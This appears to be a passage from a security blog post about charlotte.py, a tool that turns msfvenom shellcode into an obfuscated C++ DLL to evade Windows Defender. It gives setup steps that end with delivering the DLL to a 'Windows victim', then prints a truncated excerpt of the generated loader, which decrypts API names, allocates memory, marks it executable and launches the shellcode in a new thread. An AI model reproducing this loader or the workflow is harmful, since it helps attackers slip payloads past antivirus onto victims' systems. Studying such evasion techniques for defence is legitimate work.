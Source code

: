 Setting up charlotte.py is easy. Git Clone the project, generate a shellcode using msfvenom, and run the python script. Transfer the .DLL output to your Windows victim and you should be greeted with the Windows Defender alert.

<div style="text-align: center"><img src="/images/cp2.png" height="260" width="680"/></div>

Looking at the charlotte'd .cpp file it is as random as it gets...
```
[..snipped..]
extern "C" {
__declspec(dllexport) BOOL WINAPI DbAYSNZWz(void) {
	
	void * TBUtNFsTetfzYe;
	BOOL FItdBHlbLgjjKX;
	HANDLE ukEhQncjLs;
    	DWORD MYJsXQtkuIwP = 0;

        bmaVoPcTbQCXC((char *) mYdPgqLOidbJ, laqBjnDbqBRdTk, AkcsEcrfVHnOEDp, sizeof(AkcsEcrfVHnOEDp));

	hkKkLzdRJOg = GetProcAddress(GetModuleHandle("kernel32.dll"), mYdPgqLOidbJ);
	TBUtNFsTetfzYe = hkKkLzdRJOg(0, bConjMaNkxm, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	
	bmaVoPcTbQCXC((char *) tNmhfmDuHDyHwwo, bConjMaNkxm, OqtOdGvDbyoEE, sizeof(OqtOdGvDbyoEE));
	
	RtlMoveMemory(TBUtNFsTetfzYe, tNmhfmDuHDyHwwo, bConjMaNkxm);
	
        bmaVoPcTbQCXC((char *) hbZzMhPgnpgArBo, gZJLJMjsU, QqRdhyBGXwUR, sizeof(QqRdhyBGXwUR));

	mkcpaphYmJnvni = GetProcAddress(GetModuleHandle("kernel32.dll"), hbZzMhPgnpgArBo);
	FItdBHlbLgjjKX = mkcpaphYmJnvni(TBUtNFsTetfzYe, bConjMaNkxm, PAGE_EXECUTE_READ, &MYJsXQtkuIwP);

	// If all good, launch the payload
	if ( FItdBHlbLgjjKX != 0 ) {
		        bmaVoPcTbQCXC((char *) UCkJMXJzu, RxPQukOwnvkG, lHSttSXzCLxUa, sizeof(lHSttSXzCLxUa));
		        FjioHKPDNrBxbTW = GetProcAddress(GetModuleHandle("kernel32.dll"), UCkJMXJzu);
			ukEhQncjLs = FjioHKPDNrBxbTW(0, 0, (LPTHREAD_START_ROUTINE) TBUtNFsTetfzYe, 0, 0, 0);
		        bmaVoPcTbQCXC((char *) nhLePUqA, AbkuTYhMaSvpS, zqbHDXVjCK, sizeof(zqbHDXVjCK));
			GTVQQNMys = GetProcAddress(GetModuleHandle("kernel32.dll"), nhLePUqA);
[..snipped..]
```
